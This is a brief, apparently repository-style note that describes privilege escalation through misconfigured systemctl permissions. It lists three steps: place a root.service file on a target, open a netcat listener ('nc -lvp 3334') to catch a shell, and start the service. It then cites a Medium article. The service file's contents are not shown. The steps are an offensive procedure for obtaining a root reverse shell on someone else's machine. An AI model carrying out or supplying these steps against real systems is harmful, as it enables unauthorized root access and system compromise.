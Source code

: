 1. create root.service file on target

2. set up a listener 

  nc -lvp 3334
  
3. run 
 
  systemctl start root



Ref:

https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49
